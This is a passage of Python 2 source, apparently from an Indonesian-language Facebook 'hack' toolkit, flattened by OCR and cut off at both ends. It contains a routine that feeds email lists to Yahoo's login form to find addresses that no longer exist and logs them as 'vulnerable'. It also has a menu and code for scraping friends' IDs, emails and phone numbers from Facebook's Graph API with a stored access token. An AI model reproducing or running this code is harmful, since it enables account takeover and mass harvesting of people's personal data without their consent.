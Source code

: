 '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]'                     continue                  if '"messages.ERROR_INVALID_USERNAME">' in pek:                     save.write(mail + '\n')                     print 40 * '\x1b[1;97m\xe2\x95\x90'                     print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama  \x1b[1;91m:\x1b[1;97m ' + nama                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mID    \x1b[1;91m:\x1b[1;97m ' + id                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;97m ' + mail + ' [\x1b[1;92m' + vuln + '\x1b[1;97m]'                     print 40 * '\x1b[1;97m\xe2\x95\x90'                 else:                     print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]'         except KeyError:             pass      print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'     print '\x1b[1;91m[+] \x1b[1;97mTersimpan \x1b[1;91m:\x1b[1;97m MailVuln.txt'     save.close()     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')     menu_yahoo()   def yahoolist():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()     else:         os.system('clear')         print logo         print 40 * '\x1b[1;97m\xe2\x95\x90'         files = raw_input('\x1b[1;91m[+] \x1b[1;92mFile \x1b[1;91m: \x1b[1;97m')         try:             total = open(files, 'r')             mail = total.readlines()         except IOError:             print '\x1b[1;91m[!] File tidak ada'             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')             menu_yahoo()      mpsh = []     jml = 0     jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')     save = open('MailVuln.txt', 'w')     print 40 * '\x1b[1;97m\xe2\x95\x90'     print '\x1b[1;91m[?] \x1b[1;97mStatus \x1b[1;91m:  \x1b[1;97mRed[\x1b[1;92m' + vulnot + '\x1b[1;97m]  Green[\x1b[1;92m' + vuln + '\x1b[1;97m]'     print     mail = open(files, 'r').readlines()     for pw in mail:         mail = pw.replace('\n', '')         jml += 1         mpsh.append(jml)         yahoo = re.compile('@.*')         otw = yahoo.search(mail).group()         if 'yahoo.com' in otw:             br.open('https://login.yahoo.com/config/login?.src=fpctx&amp;.intl=id&amp;.lang=id-ID&amp;.done=https://id.yahoo.com')             br._factory.is_html = True             br.select_form(nr=0)             br['username'] = mail             klik = br.submit().read()             jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*')             try:                 pek = jok.search(klik).group()             except:                 print '\x1b[1;91m ' + mail                 continue              if '"messages.ERROR_INVALID_USERNAME">' in pek:                 save.write(mail + '\n')                 print '\x1b[1;92m ' + mail             else:                 print '\x1b[1;91m ' + mail      print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'     print '\x1b[1;91m[+] \x1b[1;97mTersimpan \x1b[1;91m:\x1b[1;97m MailVuln.txt'     save.close()     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')     menu_yahoo()   def grab():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('clear')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     print '\x1b[1;37;40m1. Ambil ID teman'     print '\x1b[1;37;40m2. Ambil ID teman dari teman'     print '\x1b[1;37;40m3. Ambil ID member GRUP'     print '\x1b[1;37;40m4. Ambil Email teman'     print '\x1b[1;37;40m5. Ambil Email teman dari teman'     print '\x1b[1;37;40m6. Ambil No HP teman'     print '\x1b[1;37;40m7. Ambil No HP teman dari teman'     print '\x1b[1;31;40m0. Kembali'     print     grab_pilih()   def grab_pilih():     cuih = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')     if cuih == '':         print '\x1b[1;91m[!] Jangan kosong'         grab_pilih()     else:         if cuih == '1':             id_teman()         else:             if cuih == '2':                 idfrom_teman()             else:                 if cuih == '3':                     id_member_grup()                 else:                     if cuih == '4':                         email()                     else:                         if cuih == '5':                             emailfrom_teman()                         else:                             if cuih == '6':                                 nomor_hp()                             else:                                 if cuih == '7':                                     hpfrom_teman()                                 else:                                     if cuih == '0':                                         menu_hack()                                     else:                                         print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + cuih + ' \x1b[1;91mTidak ada'                                         grab_pilih()   def id_teman():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()     else:         try:             os.system('clear')             print logo             print 40 * '\x1b[1;97m\xe2\x95\x90'             r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)             z = json.loads(r.text)             save_id = raw_input('\x1b[1;91m[+] \x1b[1;92mSimpan File \x1b[1;97mext(file.txt) \x1b[1;91m: \x1b[1;97m')             bz = open(save_id, 'w')